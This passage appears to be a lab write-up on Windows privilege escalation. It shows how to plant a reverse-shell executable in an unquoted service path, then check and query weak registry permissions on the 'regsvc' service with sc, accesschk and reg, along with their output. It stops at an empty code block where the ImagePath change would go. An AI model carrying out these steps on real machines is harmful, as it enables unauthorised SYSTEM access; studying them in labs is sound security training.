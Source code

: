 Now copying our `reverse.exe` executables in this directory and rename it to `Common.exe`. Since unquotedservice run the common file everytime.
```bash
C:\gr4n173>copy C:\gr4n173\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"
```
This way we got the reverse connection in `linux` listner same as above.

### Week Registry Permissions
#regsvc
Now next service is the registry service i.e `regsvc`. Windows regisry also have ACL(Access Control List) and stores entries for each service in the machine. So if ACL is misconfigured then we can exploit it.

```bash
C:\gr4n173>sc qc regsvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: regsvc
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "C:\Program Files\Insecure Registry Service\insecureregistryservice.exe"
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : Insecure Registry Service
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem
```

From there we can see the insecure registry location. We can find the location of `regsvc` using [winpeas.exe](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS/winPEASexe).

Now we have to check the permission on this service and found that user `NT AUTHORITY\INTERACTIVE` have `rw` permission.
```bash
C:\gr4n173\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
  Medium Mandatory Level (Default) [No-Write-Up]
  RW NT AUTHORITY\SYSTEM
        KEY_ALL_ACCESS
  RW BUILTIN\Administrators
        KEY_ALL_ACCESS
  RW NT AUTHORITY\INTERACTIVE
        KEY_ALL_ACCESS
```
So inorder to exploit this we have to change the directory of `ImagePath`. Before that let's query this registry.
```bash
C:\gr4n173>reg query HKLM\System\CurrentControlSet\Services\regsvc

HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\regsvc
    Type    REG_DWORD    0x10
    Start    REG_DWORD    0x3
    ErrorControl    REG_DWORD    0x1
    ImagePath    REG_EXPAND_SZ    "C:\Program Files\Insecure Registry Service\insecureregistryservice.exe"
    DisplayName    REG_SZ    Insecure Registry Service
    ObjectName    REG_SZ    LocalSystem

HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\regsvc\Security
```
From there you can see the `ImagePath` location pointing to insecure registry. Let's change the path.
```bash
```